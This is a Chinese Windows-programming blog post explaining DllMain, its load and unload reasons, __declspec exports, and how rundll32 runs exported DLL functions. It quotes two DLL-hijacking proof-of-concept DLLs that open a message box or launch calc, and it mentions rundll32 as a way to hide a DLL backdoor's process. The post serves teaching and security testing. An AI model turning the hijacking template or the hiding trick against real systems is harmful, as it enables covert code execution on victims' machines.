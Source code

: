 ```yaml
---
categories:
- Windows编程技术
date: "2019-10-02T00:00:00Z"
description: 深入了解一下DllMain
title: DllMain与rundll32详解
url: /archivers/2019-10-02/1
---
```


## 0x00 DllMain

对于动态链接库，DllMain是一个**可选的**入口函数。

### 程序调用DLL中的导出函数的流程

- 程序调用Windows API `LoadLibrary` 
- 操作系统寻找LoadLibrary所加载的DLL文件
- 操作系统将DLL文件加载至目标程序进程的内存空间
- 程序自动调用`DllMain`函数
- 程序调用DLL中导出函数

**如果DLL被多次`LoadLibrary`，那么`DllMain`只执行一次，引用基数+1。**

### DllMain的原型

```c++
BOOL WINAPI DllMain(
  _In_ HINSTANCE hinstDLL, // 指向自身的句柄
  _In_ DWORD fdwReason, // 调用原因
  _In_ LPVOID lpvReserved // 隐式加载和显式加载
);
```

## 0x01 DllMain调用原因

其中`fdwReason`用来表示Dll被调用的状态，一共分为四种：

- DLL_PROCESS_ATTACH 被进程加载
- DLL_PROCESS_DETACH 被进程释放
- DLL_THREAD_ATTACH  被线程加载
- DLL_THREAD_DETACH  被线程释放

在DllMain中通常为了捕获DLL被调用的方式来进行某些动作：

```c++
BOOL APIENTRY DllMain( HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
　switch (ul_reason_for_call)
　{
　　case DLL_PROCESS_ATTACH:
　　　printf("\nprocess attach of dll");
　　　break;
　　case DLL_THREAD_ATTACH:
　　　printf("\nthread attach of dll");
　　　break;
　　case DLL_THREAD_DETACH:
　　　printf("\nthread detach of dll");
　　　break;
　　case DLL_PROCESS_DETACH:
　　　printf("\nprocess detach of dll");
　　　break;
　}
　return TRUE;
}
```

## 0x02 那些用于测试DLL劫持的DllMain POC

- https://cxsecurity.com/issue/WLB-2018090232
- https://cxsecurity.com/issue/WLB-2015010114

在测试很多DLL劫持的漏洞时，都喜欢用DllMain，是因为DllMain被进程加载或者释放都会自动调用运行。

```c++
#include <windows.h>

BOOL WINAPI DllMain (
            HANDLE    hinstDLL,
            DWORD     fdwReason,
            LPVOID    lpvReserved)
{
    switch (fdwReason)
  {
  case DLL_PROCESS_ATTACH:
    owned();
  case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
  break;
  }
  return TRUE;
}

int owned() {
  MessageBox(0, "iExplorer DLL Hijacked\Hadji Samir", "POC", MB_OK);
}

#include <windows.h>
#define DLLIMPORT __declspec (dllexport)
 
DLLIMPORT void HrCreateConverter() { evil(); }
 
int evil()
{
  WinExec("calc", 0);
  exit(0);
  return 0;
}

```

## 0x03 __declspec


`__declspec`是Microsoft VC中专用的关键字，它配合着一些属性可以对标准C/C++进行扩充。`__declspec`关键字应该出现在声明的前面。

`__declspec(dllexport)`用于Windows中的动态库中，声明导出函数、类、对象等供外面调用，省略给出.def文件。即将函数、类等声明为导出函数，供其它程序调用，作为动态库的对外接口函数、类等。


`__declspec(dllimport)`用于Windows中，从别的动态库中声明导入函数、类、对象等供本动态库或exe文件使用。当你需要使用DLL中的函数时，往往不需要显示地导入函数，编译器可自动完成。


## 0x04 关于rundll32

Rundll32.exe是什么？顾名思意，"执行32位的DLL文件"。它的作用是执行DLL文件中的内部函数，这样在进程当中，只会有Rundll32.exe，而不会有DLL后门的进程，这样，就实现了进程上的隐藏。

-- 百度百科


经过如上解释，可以总结为，rundll32能够运行一个32位的dll文件，并且在进程列表中只能看到rundll32.exe，但是遍历rundll32.exe的模块列表可以看到进程加载的dll。

-----------------------

**并不是所有的dll都能够被rundll32运行。** 为何这么说，因为rundll32只支持特定的函数声明方式，并且该函数必须在dll文件的导出表中。关于导出表的知识可以阅读 - 《Windows PE权威指南》 👍

rundll32.exe支持的函数原型如下：

```
VOID CALLBACK FunctionName (HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow);
```

通过原型可以发现，与Windows平台下的`WinMain`一模一样，可以理解为rundll32调用的函数就是一段代码的入口函数。


下面来写一个支持rundll32运行的dll：

1. 使用visual studio新建一个dll工程，并声明函数：`rundll`

```
#include <Windows.h>


extern "C" __declspec(dllexport) void rundll(HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow){

	MessageBox(NULL,TEXT("-Test-"),TEXT("Rundll32"),MB_OK);

}
```

![2019-10-02-19-58-36](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/00fc4fb53fc6fe2066e0273a84b03e28.png)

2. 使用rundll32运行dll

![2019-10-02-20-00-18](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/1dfbb642309ac2a2a741c529751ce50c.png)


通过进程列表查看：

![2019-10-02-20-00-54](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7c1e7c60d47a3d76d7f47a40c1354d68.png)

![2019-10-02-20-04-38](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f7afbb1ba62e1a1280cb3d1df141ad21.png)

使用`wmic process get commandline`也可以获得命令行详情：

![2019-10-02-20-02-49](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b29994c93ed7dd8514360df92fbca405.png)

还有一种方式是获得该进程加载的模块，这是最精确的了；但windows 7不能直接看到，需要借助工具。（win10可以通过任务查看器看到..）

![2019-10-02-20-08-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/55c8bd2002161bf855fffea28e31c05d.png)


**这个dll是没有DllMain也能够正常运行的，并不是所有的dll都有DllMain这个函数**


我经过实验后发现，一个dll有没有DllMain完全取决于当前这个dll对于功能的需求，如果对装载方式的状态没有特定的要求，完全可以省去编写DllMain，因为DllMain不是一个导出函数，永远是一个由系统被动调用的函数。